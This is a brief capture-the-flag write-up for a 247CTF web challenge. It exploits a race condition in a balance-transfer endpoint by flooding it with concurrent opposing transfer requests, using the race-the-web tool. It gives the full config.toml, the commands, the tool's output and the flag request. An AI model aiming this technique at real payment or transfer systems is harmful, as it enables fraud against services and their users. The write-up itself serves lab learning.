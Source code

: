 exploit race condition

2 type requests send in bulk at the sametime,
it's will make occure the race condition

I used super useful and strong tool,,

https://github.com/TheHackerDev/race-the-web

this tool is are so nice and fast

```
->$ race-the-web config.toml
```
this tool requre the config.toml in argument:

request type1: ?to=1&from=2&amount=50.
request type2: ?to=2&from=1&amount=50.

config.toml
```
# Specify the first request
[[requests]]
    # Use the GET request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50"
    # Set the request body.
    # body = "body=text"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Follow redirects
    #redirects = true

# Specify the second request
[[requests]]
    # Use the POST request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50"
    # Set the request body.
    #body = "val=1000"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Do not follow redirects
    #redirects = false

```

run 
```
->$ race-the-web config.toml 
Requests begin.
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50
```

finish

```
->$ curl https://e634a9e3f05457b9.247ctf.com/?flag\&from=2
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
